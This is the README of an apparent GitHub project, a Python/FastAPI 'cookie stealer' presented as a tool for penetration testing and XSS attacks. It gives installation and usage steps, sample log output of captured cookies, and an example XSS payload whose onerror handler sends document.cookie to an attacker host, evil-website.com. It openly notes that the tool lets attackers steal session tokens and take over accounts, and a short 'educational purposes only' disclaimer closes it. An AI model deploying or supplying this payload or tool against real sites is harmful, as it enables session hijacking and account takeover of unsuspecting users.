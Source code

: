 # Python Cookie Stealer
The Python cookie stealer is a tool that can be used in penetration testing and XSS attacks to steal browser cookies from victims. The tool works by setting up a server that listens for incoming requests with a specific cookie value. When a request is received, the tool logs various information about the request, including the date and time, client IP address, user agent, referer, and cookie value, to a file.

This tool can be used by attackers to steal sensitive information, such as session tokens and authentication credentials, from unsuspecting users. By stealing a user's browser cookies, an attacker can gain unauthorized access to the user's account and perform actions on their behalf.

## Usage

1. Clone Python Cookie Stealer Project
```
git clone https://github.com/TheWation/PythonCookieStealer
```

2. Install Python and FastAPI on your machine if you haven't already. You can download the latest version of Python from the official website: https://www.python.org/downloads/ and install FastAPI using pip:

```bash
pip install fastapi
```
3. Install uvicorn, a lightning-fast ASGI server, using pip:

```bash
pip install uvicorn
```

4. Create a new directory for your project and navigate into it using a terminal or command prompt.

5. Create a new file called main.py and copy the FastAPI code into it.

6. Start the FastAPI server by running the following command in the terminal or command prompt:

```bash
uvicorn main:app --reload
```

7. In your web browser, visit http://localhost:8000/c/your-cookie-value, replacing your-cookie-value with the value of the cookie that you want to log. For example, if the cookie value is ABC123, you would visit http://localhost:8000/c/ABC123.

8. The server will log the date and time, client IP address, user agent, referer, and cookie value to the cookies.txt file in the project directory.

```
[+] Date: 2022/10/03 15:30:45
[+] IP: 127.0.0.1
[+] UserAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
[+] Referer: http://localhost:8000/
[+] Cookies: ABC123
---
```

9. The server will also return a response with a status code of 200 if the request was successful, or a status code of 500 if there was an error writing to the file.

10. You can repeat step 6 with different cookie values to log additional data to the file.

11. To stop the server, press CTRL+C in the terminal where it is running.

## Example Payload
```
https://pentest.target/?name=<img src=x onerror=this.src='http://evil-website.com/c/'+document.cookie>
```

## Disclaimer
For educational purposes only. Do not use for illegal activities. Use at your own risk. By using this tool, you agree to comply with all applicable laws and regulations. Unauthorized use is strictly prohibited. Always obtain permission before using this tool. No warranties.

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.